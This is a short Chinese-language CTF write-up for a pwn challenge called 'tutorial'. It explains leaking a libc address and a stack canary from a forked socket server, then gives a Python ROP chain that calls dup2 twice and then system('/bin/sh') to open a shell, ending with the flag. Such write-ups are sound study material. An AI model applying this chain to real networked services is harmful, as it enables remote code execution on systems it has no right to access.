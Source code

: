 tutorial
==========
由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

解題流程
----------
程式一開始會建立 socket 連線，然後執行 ```fork``` 後進入 ```menu(int socket)``` 選單。
* 選項 1 會輸出 ```puts()``` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  ```rbp-320``` ，所以這裡可以 leak 出位於 ```rbp-8``` 的 canary。

```C
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```
* 選項 3 離開程式。

----------
有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 ```system``` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 ```fork```，這邊直接叫 ```system``` 的話 file descriptor 會接不起來。所以我們要先用 ```dup2()``` 把 fd 設好才行。
由於前面呼叫 ```read```  時已經把 rdi 設成我們要的值了，所以用 ```dup2``` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	 p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 ```accept``` 的回傳值送給 ```stdin``` 和 ```stdout``` 之後 call ```system``` 就可以拿到 shell 了。

	FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
